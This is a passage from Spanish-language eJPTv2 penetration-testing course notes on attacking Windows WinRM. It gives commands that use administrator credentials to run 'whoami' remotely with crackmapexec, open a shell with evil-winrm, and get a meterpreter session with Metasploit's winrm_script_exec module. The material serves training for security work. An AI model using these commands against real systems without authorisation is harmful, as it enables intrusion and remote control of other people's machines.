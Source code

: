 ```bash
crackmapexec winrm <IP_Target> -u administrator -p <pass> -x "whoami"
```

Para obtener una shell utilizaremos **evil-winrm.rb**:

```bash
evil-winrm.rb -u administrator -p <pass> -i <IP_target>
```

Si queremos hacerlo con **Metasploit**, utilizamos el siguiente módulo:

```bash
use exploit/windows/winrm/winrm_script_exec
```

Para este ejemplo configuramos a true la opción FORCE_VBS para obligar al módulo a usar un comando de visual basic stager. Además, debemos establecer el USERNAME y PASSWORD. Una vez finalizada la ejecución, obtenemos una sesión meterpreter.

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2069.png)

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2070.png)
